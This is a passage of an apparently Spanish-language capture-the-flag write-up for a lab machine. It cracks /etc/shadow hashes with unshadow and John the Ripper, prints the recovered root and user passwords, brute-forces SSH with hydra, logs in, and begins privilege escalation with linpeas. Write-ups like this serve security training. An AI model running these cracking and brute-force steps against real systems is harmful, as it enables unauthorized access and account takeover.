 ```bash
unshadow passwd shadow > unshadow
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:24 DONE (2025-01-16 17:17) 0.08203g/s 2415p/s 4053c/s 4053C/s kruimel..bluedolphin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Soy capaz de cracker las contraseñas de el usuario root y el usuario michael, ahora utilizo hydra para validar dichas credenciales mediante fuerza bruta

```bash
 hydra -L users.txt -P creds.txt ssh://10.10.11.32
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-16 17:21:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:2/p:2), ~1 try per task
[DATA] attacking ssh://10.10.11.32:22/
[22][ssh] host: 10.10.11.32   login: michael   password: insaneclownposse
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-16 17:21:27
```

Como resultado obtengo que la contraseña insaneclownposse es válida para michael, por lo que conecto por ssh.

```bash
ssh michael@10.10.11.32
The authenticity of host '10.10.11.32 (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.32' (ED25519) to the list of known hosts.
michael@10.10.11.32's password: 
Last login: Thu Jan 16 13:01:27 2025 from 10.10.14.136
-bash-5.1$ whoami
michael
```

### Privilege escalation

Utilizo la herramienta linpeas para intentar identificar posibles formas de escalar privilegios

```bash
michael@sightless:/tmp$ ./linpeas.sh > linout.txt
```
